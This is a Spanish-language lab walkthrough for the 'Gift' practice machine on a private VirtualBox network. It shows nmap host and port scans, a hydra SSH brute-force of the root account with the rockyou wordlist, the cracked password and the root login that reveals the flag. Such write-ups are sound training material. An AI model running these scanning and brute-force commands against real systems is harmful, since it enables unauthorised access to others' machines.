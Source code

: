 Parte de [[Maquinas]] y [[Enumeracion de Servicios]]

>1. Barrido de exploracion desde 192.168.56.100 a la 192.168.56.254

``` bash
sudo nmap -sn 192.168.56.100/24
```

Otra opcion:

``` bash
sudo nmap -sn 192.168.56.100-254
```

Salida (de la primera opcion):

``` java
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-14 20:41 CET
Nmap scan report for 192.168.56.1
Host is up (0.00020s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.10
Host is up (0.0010s latency).
MAC Address: 08:00:27:02:65:23 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.102
Host is up (0.00077s latency).
MAC Address: 08:00:27:7B:8B:9E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.103
Host is up (0.00072s latency).
MAC Address: 08:00:27:73:79:CB (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.100
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.11 seconds
```

La IP de la maquina Gift es 192.168.56.103 (ya que 102 es metasploitable)

Otras opciones serian:

``` bash
sudo arp-scan -I eth1 192.168.56.100-192.168.56.254
sudo netdiscover -i eht1 -r 192.168.56.0/24
```

Netdiscover tambien puede trabajar en modo pasivo

> 2. Escaneo de puertos:

``` bash
sudo nmap -n -Pn -sV -O -p- 192.168.56.103 -oN nmap_output.txt
```

Salida:

``` java
Nmap scan report for 192.168.56.103
Host is up (0.0015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx
MAC Address: 08:00:27:73:79:CB (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.22 seconds
```

---

## Prueba propia para resolución

Ataque de fuerza bruta a ssh

Comando:

``` bash
hydra -l root -P /usr/share/wordlists/rockyou.txt.gz ssh://192.168.56.103:22
```

Salida:

``` java
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-16 17:48:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.103:22/
[22][ssh] host: 192.168.56.103   login: root   password: simple
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-16 17:48:29
```

La contraseña es "simple" con lo que podemos conectarnos a root por ssh:

``` bash
ssh root@192.168.56.103

The authenticity of host '192.168.56.103 (192.168.56.103)' can't be established.
ED25519 key fingerprint is SHA256:dXsAE5SaInFUaPinoxhcuNloPhb2/x2JhoGVdcF8Y6I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.103' (ED25519) to the list of known hosts.
root@192.168.56.103's password: 

IM AN SSH SERVER

gift:~# ls
root.txt  user.txt

gift:~# cat root.txt
HMVtyr543FG
```

---

